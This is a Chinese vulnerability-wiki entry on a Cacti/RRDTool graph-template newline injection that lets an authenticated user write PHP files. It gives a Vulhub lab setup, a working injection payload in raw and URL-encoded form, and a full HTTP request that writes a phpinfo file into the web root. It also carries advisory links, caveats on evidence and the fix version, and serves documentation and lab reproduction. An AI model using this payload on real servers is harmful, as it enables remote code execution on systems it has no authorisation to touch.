






# Cacti / RRDTool 图形模板换行参数注入→PHP文件写入

## 条目说明

- 对象与具体问题：Cacti / RRDTool；图形模板换行参数注入→PHP文件写入
- 版本、配置及部署条件：<=1.2.28，声称1.2.29修复；模板权限/Web目录可写
- 认证与权限前提：已认证且可编辑图形模板/创建图
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 标题导致远程可能误触致远关键词分类（推断）
- 厂商GHSA/commit原始来源充足，完整流程和参数解释良好
- Error: creating arguments本身不证明payload执行，应以文件内容/执行结果确认
- 修改共享模板/创建图/写文件有副作用，固定CSRF和id应参数化

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

Cacti 是一款利用 RRDTool 数据存储和图形化功能的完整网络图形化解决方案。在 Cacti 1.2.28 及以前版本中存在一个命令注入漏洞，该漏洞允许已认证用户在 Web 服务器上创建任意 PHP 文件，从而可能导致远程代码执行。

此漏洞出现在图形模板功能中，用户输入的 RRDTool 命令参数，如 `--right-axis-label`，未被正确过滤。虽然 Cacti 尝试使用 `cacti_escapeshellarg()` 函数转义 shell 元字符，但它未能处理换行符。这允许攻击者突破预期的命令上下文并注入其他 RRDTool 命令，最终能够向 Web 根目录写入恶意 PHP 文件。

参考链接：

- https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq
- https://github.com/Cacti/cacti/commit/c7e4ee798d263a3209ae6e7ba182c7b65284d8f0

### 漏洞影响

```
Cacti <= 1.2.28
```

### 环境搭建

Vulhub 执行如下命令启动 Cacti 1.2.28：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可看到 Cacti 的登录界面，默认用户名密码为 admin/admin。

你需要登录并按照初始化指引操作，只需点击 "Next" 按钮直到看到成功页面即可。




### 漏洞复现

在 Cacti 控制台，导航至 "Console → Templates → Graph"，找到 "PING - Advanced Ping" 模板并编辑它。捕获这个编辑请求，然后修改 `right_axis_label` 参数为以下 payload（请注意换行符 `%0a`）：

```
XXX
create my.rrd --step 300 DS:temp:GAUGE:600:-273:5000 RRA:AVERAGE:0.5:1:1200
graph vulhub.php -s now -a CSV DEF:out=my.rrd:temp:AVERAGE LINE1:out:<?=phpinfo();?>

# URLEncode
XXX%0Acreate+my.rrd+--step+300+DS%3Atemp%3AGAUGE%3A600%3A-273%3A5000+RRA%3AAVERAGE%3A0.5%3A1%3A1200%0Agraph+vulhub.php+-s+now+-a+CSV+DEF%3Aout%3Dmy.rrd%3Atemp%3AAVERAGE+LINE1%3Aout%3A%3C%3F%3Dphpinfo%28%29%3B%3F%3E%0A
```

发送请求包：

```http
POST /graph_templates.php?header=false HTTP/1.1
Host: your-ip:8080
Accept-Language: en
Accept: */*
Origin: http://your-ip:8080
Accept-Encoding: gzip, deflate
Referer: http://your-ip:8080/graph_templates.php?action=template_edit&id=297
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie:

__csrf_magic=sid%3A177b18c4669cf1f2ddb92b3fb5de63afe9aec9b0%2C1743407390&name=PING+-+Advanced+Ping&graph_template_id=297&graph_template_graph_id=297&save_component_template=1&title=%7Chost_description%7C+-+Advanced+Ping&vertical_label=milliseconds&image_format_id=3&height=200&width=700&base_value=1000&slope_mode=on&auto_scale_opts=1&upper_limit=10&lower_limit=0&unit_value=&unit_exponent_value=1&unit_length=&right_axis=&right_axis_label=XXX%0Acreate+my.rrd+--step+300+DS%3Atemp%3AGAUGE%3A600%3A-273%3A5000+RRA%3AAVERAGE%3A0.5%3A1%3A1200%0Agraph+xxx2.php+-s+now+-a+CSV+DEF%3Aout%3Dmy.rrd%3Atemp%3AAVERAGE+LINE1%3Aout%3A%3C%3F%3Dphpinfo%28%29%3B%3F%3E%0A&right_axis_format=0&right_axis_formatter=0&left_axis_formatter=0&tab_width=30&legend_position=0&legend_direction=0&rrdtool_version=1.7.2&action=save
```

> 请求长度说明：原资料 Content-Length 为 590；静态长度已移除，应由客户端根据最终请求体的字节数生成。




然后，来到 "Console → Create → New Graphs"，使用 "PING - Advanced Ping" 模板创建一个新图表：




之后，来到 "Graphs → Default Tree → Local Linux Machine" 来触发 payload 执行。你会看到一个带有 "Error: creating arguments" 错误消息的图像，这意味着 payload 已被执行：




命令执行后，payload 将在 Cacti 的 Web 根目录创建两个文件：一个 RRD 文件 `my.rrd` 和一个 phpinfo 页面 `xxx2.php`：







### 漏洞修复

官方已发布 1.2.29 版本修复该漏洞，建议升级至最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
